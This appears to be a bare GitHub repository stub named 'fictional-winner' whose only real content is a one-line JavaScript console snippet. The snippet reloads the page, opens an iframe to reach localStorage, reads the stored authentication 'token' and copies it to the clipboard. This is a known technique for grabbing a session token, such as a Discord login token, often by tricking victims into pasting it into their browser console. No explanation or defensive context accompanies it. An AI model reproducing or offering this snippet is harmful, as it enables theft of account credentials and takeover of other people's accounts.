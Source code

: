 # fictional-winner
window.location.reload(); copy(document.body.appendChild(document.createElement `iframe`).contentWindow.window.localStorage.token);
